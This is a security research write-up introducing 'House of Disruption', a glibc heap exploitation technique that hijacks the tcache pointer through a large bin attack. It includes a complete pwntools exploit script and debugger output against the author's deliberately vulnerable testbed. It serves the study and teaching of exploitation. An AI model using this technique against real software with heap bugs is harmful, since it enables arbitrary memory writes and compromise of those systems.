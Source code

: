 # House of Disruption
In this article I will describe a new powerful heap house I crafted which is applicable from glibc versions `2.26` until `2.35` (latest at the moment of writing this article) with the tcache enabled. It's a pretty simple House but quite powerful with what you can do with it!

The main idea behind house of disruption is: by performing a simple large bin attack (which until 2.35 is unpatched) against the `tcache` pointer, we can fool glibc into thinking that the `tcache` is located somewhere else on the heap. By crafting a fake tcache inside the large bin which the `tcache` pointer is pointing to after the large bin attack, we can easily make `malloc` to return arbitrary chunks.

The only requirements for the house of disruption is a libc leak which we need inorder to locate the `tcache` pointer in memory and the ability to perform a large bin attack. Quite minimalistic isn't it?

# Dive into malloc internals
For the house of disruption actually we just need to understand how tcache returns free tcache chunks back to the program.
```c
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}
```
And this is actually pretty interesting. When you ask from ptmalloc2 a chunk in the tcache range (from `0x0` to `0x410` bytes), ptmalloc2 will try to see if there is an available free tcache chunk. If it finds one it will call `tcache_get` to fetch it from the tcache and will return it back to the program.

The most important thing you have to consider is how ptmalloc2 locates the tcache on the heap. And as you can see above it uses a global variable named `tcache`. This variable will be our target for our large bin attack later.
```c
static __thread tcache_perthread_struct *tcache = NULL;
```
`tcache` is a per thread global variable and hence it is stored in the thread local storage of each thread. But for our single threaded program you can see it as a simple global variable which is **writable**.

Because ptmalloc2 blindly trusts this `tcache` pointer, if you are able to modify him to point to a place which you control, by crafting a fake tcache in that place you will be able eventually to make ptmalloc2 to return arbitrary chunks back to the program!

In our PoC the only place we can craft a fake tcache is on the heap and so we will perform a large bin attack to put a heap address into the `tcache` pointer.

# Proof of Concept
For a proof of concept I will use the same testbed I used for another House that I made. You can find it [here](https://github.com/un1c0rn-the-pwnie/FSOPAgain/blob/main/poc3/house_of_error.c). If you remove the theme it's actually a simple testbed. In that testbed you have the ability to allocate chunks with a max size of `0x1000` bytes and you can free them if you wish. The bug in my testbed is a heap overflow of `40` bytes.

# Exploit for House of disruption.
```python
from pwn import *

elf = context.binary = ELF('house_of_disruption_patched', checksec = False)
libc = ELF('libc.so.6', checksec = False)

def start():
    if args.GDB:
        return gdb.debug(elf.path)
    else:
        return process(elf.path)

free_positions = [0,]*8

def select_option(option):
    io.sendlineafter(b'> ', str(option).encode())

def adjust_size(chunk_size): # copy pasted from HeapLABs ;)
    return (chunk_size & ~0x0f) - 8

def lock_position():
    for i in range(8):
        if free_positions[i] == 0:
            free_positions[i] = 1
            return i
    return -1

def unlock_position(pos):
    free_positions[pos] = 0
    
def malloc(size, contents):
    select_option(option = 1)
    io.sendlineafter(b'> ', hex(adjust_size(size)).encode())
    io.sendlineafter(b'> ', contents)
    return lock_position()

def free(index):
    select_option(option = 2)
    io.sendlineafter(b': ', str(index).encode())
    unlock_position(index)
    
def largebin_offset(address):
    return address - 0x20

def largebin_attack(target, fake_tcache_contents):
    largebin_target = largebin_offset(target)
    
    chunk_A = malloc(size = 0x820, contents=fake_tcache_contents) # after our large bin attack our new tcache will be here.
    chunk_B = malloc(size=0x70, contents=b'useful chunk') # this will take a guard chunk role also.
    chunk_C = malloc(size = 0x830, contents=b'Overflow me I will give you arbitrary chunks of many sizes!')
    chunk_guard = malloc(size = 0x40, contents=b'guard chunk')
    
    # Initiate our large bin attack.
    free(chunk_C) # free the biggest large chunk.
    
    # currently chunk 0x830 is linked in unsortedbin list, let's sort it to large bin list.
    sorter_chunk = malloc(size=0x840, contents=b'blah blah')
    free(chunk_A) # free the smallest large chunk.
    
    free(chunk_B) # we free this chunk inorder to overflow to chunk_C and hijack bk_nextsize pointer.
    
    chunk_B = malloc(size=0x70, contents=b'A'*0x60 + p64(0x0) + p64(0x830) + p64(0x0) + p64(0x0) + p64(0x0) + p64(largebin_target))
    # because we are sending also a newline we have to discard some output. Newline issues -.-
    io.recvuntil(b'Sorry you are not allowed to leave, you are my slave.\n')
    
    sorter_chunk = malloc(size=0x840, contents=b'blah blah') # now tcache must point back to our chunk_A!

def house_of_disruption():
    tcache_ref = libc.address - 0x2908
    
    # I will choose default_overflow_region as my target, you can choose any targets you like. Try to get a shell if you can ;)
    '''
        2a6:1530│       0x7faddbc4a530 (program_invocation_short_name) —▸ 0x7fff07c5ee08 ◂— 'house_of_disruption_patched'
        2a7:1538│       0x7faddbc4a538 (program_invocation_name) —▸ 0x7fff07c5eded ◂— '/home/un1c0rn/house_of_disruption/house_of_disruption_patched'
        2a8:1540│       0x7faddbc4a540 (default_overflow_region) ◂— 0x0
        2a9:1548│       0x7faddbc4a548 (default_overflow_region+8) ◂— 0x1
        2aa:1550│       0x7faddbc4a550 (default_overflow_region+16) ◂— 0x2
    '''
    
    target = libc.sym.default_overflow_region  # any target we like but we need it to be aligned to avoid tcache_get unaligned tcache mitigation!
    contents = p64(0xdeadbeef) + p64(0xcafebabe) + p64(0xbadc0de)

    # After our large bin attack our small large bin which now is our tcache will look like this:
    '''
        0x55ed6a059290:	0x0000000000000000	0x0000000000000821
        0x55ed6a0592a0:	0x00007f9ce80d41d0	0x000055ed6a059b20
        0x55ed6a0592b0:	0x000055ed6a059b20	0x00007f9ce7ede6d8
        0x55ed6a0592c0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592d0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592e0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592f0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059300:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059310:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059320:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059330:	0x00000000deadbeef	0x00000000deadbeef
    '''
    
    # Our new tcache will start from 0x55ed6a059290.
    # So we can not control the first 6 qwords. (Except if we perform another heap overflow from an above crafted chunk or with a write after free). But it doesn't matter the top of the tcache is allocated for the counts.
    # Filling our small large bin with a special crafted fake tcache we can supply fake tcache bins and allocate whatever we want!
    
    '''
/* offset      |    size */  type = struct tcache_perthread_struct {
/* 0x0000      |  0x0080 */    uint16_t counts[64];
/* 0x0080      |  0x0200 */    tcache_entry *entries[64];

                            /* total size (bytes):  640 */
                            }
    '''
    
    fake_tcache_counts = p64(0)*4 + p64(0xffffffffffffffff)*10 # first 4 qwords are used for fd/bk/bk_nextsize/fd_nextsize and after our large bin attack whatever we place there will be overwritten
    fake_tcache_bins   = p64(target - 0x10)*0x80 # spray our target because I'm lazy to calculate simple stuff.
    
    fake_tcache = fake_tcache_counts + fake_tcache_bins
    
    largebin_attack(tcache_ref, fake_tcache)
    malloc(size = 0xe0, contents=p64(0x0)*2 + contents) # allocate our target and overwrite it with our contents :)
    
    success(f'See the contents of your target in the debugger ;)')
    success(f'Quick reminder your selected target was: 0x{target:02x}')
    
io = start()

io.recvuntil(b'@ The ASLR god gifted you a present for your adventure: ') # skip blah blah
puts_leak = int(io.recvline(keepends = False), base = 16)
success(f'puts @ 0x{puts_leak:02x}')

libc.address = puts_leak - libc.sym.puts
success(f'libc @ 0x{libc.address:02x}')

house_of_disruption()

io.interactive()
```
Result:
```python
$ python3 exploit.py GDB
[+] puts @ 0x7ffbf8091e80
[+] libc @ 0x7ffbf8018000
[+] See the contents of your target in the debugger ;)
[+] Quick reminder your selected target was: 0x7ffbf820b540
[*] Switching to interactive mode

Press 1 to add a new pwnie land
Press 2 to burn your pwnie land
> $  
pwndbg> tel 0x7ffbf820b540
00:0000│  0x7ffbf820b540 (default_overflow_region) ◂— 0xdeadbeef
01:0008│  0x7ffbf820b548 (default_overflow_region+8) ◂— 0xcafebabe
02:0010│  0x7ffbf820b550 (default_overflow_region+16) ◂— 0xbadc0de
03:0018│  0x7ffbf820b558 (default_overflow_region+24) —▸ 0x7ffbf821000a (__pthread_keys+10314) ◂— 0x0
04:0020│  0x7ffbf820b560 (default_overflow_region+32) ◂— 0x0
05:0028│  0x7ffbf820b568 (default_overflow_region+40) ◂— 0xffffffffffffffff

```
